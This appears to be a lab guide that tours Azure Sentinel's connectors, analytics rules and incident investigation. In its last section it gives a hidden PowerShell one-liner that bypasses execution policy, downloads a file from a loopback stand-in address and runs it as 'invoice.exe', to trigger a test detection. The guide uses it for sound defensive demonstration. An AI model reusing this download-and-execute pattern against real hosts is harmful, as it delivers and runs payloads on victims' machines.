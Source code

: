 # **Demo 12: Azure Sentinel**

## What is Azure Sentinel?

Microsoft Azure Sentinel is a scalable, cloud-native, security information event management (SIEM) and security orchestration automated response (SOAR) solution. Azure Sentinel delivers intelligent security analytics and threat intelligence across the enterprise, providing a single solution for alert detection, threat visibility, proactive hunting, and threat response.

Azure Sentinel is your birds-eye view across the enterprise alleviating the stress of increasingly sophisticated attacks, increasing volumes of alerts, and long resolution time frames.

- **Collect data at cloud scale** across all users, devices, applications, and infrastructure, both on-premises and in multiple clouds. 

- **Detect previously undetected threats**, and minimize false positives using Microsoft's analytics and unparalleled threat intelligence. 

- **Investigate threats with artificial intelligence**, and hunt for suspicious activities at scale, tapping into years of cyber security work at Microsoft. 

- **Respond to incidents rapidly** with built-in orchestration and automation of common tasks.

![ws name.](media/sentinel1.png)

To on-board Azure Sentinel, you first need to enable Azure Sentinel, and then connect your data sources. Azure Sentinel comes with a number of connectors for Microsoft solutions, available out of the box and providing real-time integration, including Microsoft 365 Defender (formerly Microsoft Threat Protection) solutions, Microsoft 365 sources (including Office 365), Azure AD, Microsoft Defender for Identity (formerly Azure ATP), Microsoft Cloud App Security, Azure Defender alerts from Azure Security Center, and more.

## Global prerequisites

- Active Azure Subscription, if you don't have one, create a [free account](https://azure.microsoft.com/free/?WT.mc_id=A261C142F) before you begin.

- Log Analytics workspace. Learn how to [create a Log Analytics workspace](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/quick-create-workspace). For more information about Log Analytics workspaces, see [Designing your Azure Monitor Logs deployment](https://docs.microsoft.com/en-us/azure/azure-monitor/logs/design-logs-deployment).

- To enable Azure Sentinel, you need contributor permissions to the subscription in which the Azure Sentinel workspace resides.

- To use Azure Sentinel, you need either contributor or reader permissions on the resource group that the workspace belongs to.

- Additional permissions may be needed to connect specific data sources.

- Azure Sentinel is a paid service. For pricing information see [About Azure Sentinel](https://go.microsoft.com/fwlink/?linkid=2104058).

## **Task 1: Demo and Walkthrough of Azure Sentinel**

1. Sign in to the Azure portal and search for and select Azure Sentinel.

![ws name.](media/sentinel2.png)

2. Click on **log-analytics-avd-prod-EUS1-001**

![ws name.](media/sentinel3.png)

3. Click on **Data Connectors** and highlight the Connected Data connectors

![ws name.](media/sentinel4.png)

4. Click on **Azure Active Directory** and then click on **Open connector page**

![ws name.](media/sentinel5.png)

5. On this page you can highlight the **Sign-In** Logs checkbox which indicates that the AAD Sign Logs are now being sent over to Azure Sentinel.

![ws name.](media/sentinel6.png)

6. Click on **Next steps**; On this page you can highlight the **Relevant analytics templates** and showcase the in-built Rules that you can create for various types of events.

![ws name.](media/sentinel7.png)

7. Click on **Analytics**; On this page you can highlight the **Active Rules** and showcase the in-built Rules.

![ws name.](media/sentinel8.png)

8. Click on **Incidents**; On this page you can highlight the **Open, New and Active Incidents**. These are Test incidents generated as a result of a simulated malicious command line.

![ws name.](media/sentinel9.png)

9. Select any of the Incidents; Click on **Actions**, and then click on **Investigate**.

![ws name.](media/sentinel10.png)

10. On this page you can highlight the level of details that is shown, like how the process was run, what other child processes were created, who exceuted the process, etc.

![ws name.](media/sentinel11.png)

## **Task 2: Attack Simulation**

1. Using AVD Client on your JumpVM, Login to any of the Session Desktops with any of the User Accounts.

2. Open CMD as non-Admin, and execute the below Commandline.

```
powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe');Start-Process 'C:\\test-WDATP-test\\invoice.exe'
```

This should take couple of minutes to report to Defender and then eventually being captured by Azure Sentinel. In sometime you should be able to see a new Incident getting created for the above malicious command execution.

![ws name.](media/sentinel12.png)

![ws name.](media/sentinel13.png)